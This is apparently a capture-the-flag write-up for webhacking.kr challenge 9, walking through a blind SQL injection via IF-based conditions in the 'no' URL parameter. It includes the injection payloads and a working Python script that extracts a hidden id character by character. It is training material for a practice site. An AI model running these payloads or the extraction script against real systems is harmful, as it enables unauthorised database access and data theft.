Problem9
===========   

This problem is in webhacking.kr.   
URL: <https://webhacking.kr/challenge/web-09/>   
 
If you enter in the URL, you can see like the bottom photo.   
      
   

### First, Click 1    

  

If you click one, you can see the page like this.  
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=1>.     

### Second, Click 2    

    

If you click two, you can see the page like this.   
Then, url of page is <https://webhacking.kr/challenge/web-09/?no=2>.  
   
### Third, Click 3   

    

Likewise, only the 'no' value of URL changes to 3.   

Based on that, if you change the value of 'no' to 4, you can see like the bottom photo.   

    
    
Thus, the specfic text is disappeared.    

#### But, we can know <strong>"column: id, no" and "no 3's id is password"</strong> through this.   
#### In conclusion, if you enter 3's ID in the password, the problem is solved.    
#### Besides, the column have two elements that are 'id' and 'no'.   

Through this, we can think about SQL Injection or Blind SQL Injection.    
So, I tried to enter <strong>union</strong>, <strong>select</strong>, <strong>' or 1=1#</strong> etc...   
But, the page showed <strong>Access Denied</strong> and could not be solved in this way.   

    
   
Thus, I tried to use <strong>IF STATEMENT</strong> supporting by SQL.    
We can compose IF STATEMENT in the SQL where condition query.     
    
```   
if ( Condition, [Return when true], [Return when false] ) 
```   

Based on that, let's test.   
    
First, URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(5),1,404) 

    
     
The page correctly prints "Apple". Then, if you change the <strong>if(length(id)like(5),1,404)</strong> to <strong>if(length(id)like(5),2,404)</strong>,    
it will not print the word "Apple".  
   
   

Second, let's test the second id.  

URL: https://webhacking.kr/challenge/web-09/?no=if(length(id)like(6),2,404)

The page correctly prints "Banana".   
   
   
     
Thus, we could find out the string length of third ID in this way.   
In addition, we could find out third ID by using substr function.    

### It's not easy to get to know each one by one, so I wrote the code.   

## Python Code   
   
```  
import requests 

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1plfje78cfg4142vhfrt3l4lon'}
keywords = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

def HttpRequest(num, text): 
    id_length = 0 
    result = ''
    for i in range(1, 20):
        url='https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({}),{},404)'.format(i,num)
        res = requests.get(url, headers=headers, cookies=cookies)
        if text in res.text: 
            id_length = i
            print('no {}\'s id length: {}'.format(num, i))
            break 
    
    for i in range(1, id_length + 1):
        for key in keywords: 
            url = 'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{},1)like({}),{},404)'.format(i, hex(ord(key)), num)
            res = requests.get(url, headers=headers, cookies=cookies)
            if text in res.text: 
                result += key
                break 
    
    print("no {}\' id: {}".format(num, result))

if __name__== '__main__':
    HttpRequest(3, "Secret")

```    
   
In priority, After obtainning the length of the ID, find out the ID through keywords.   
In the result, we can obtain the third ID like this.     
      
   

Thus, if you enter it to password, it will be solved like this.    
    
   
    
 


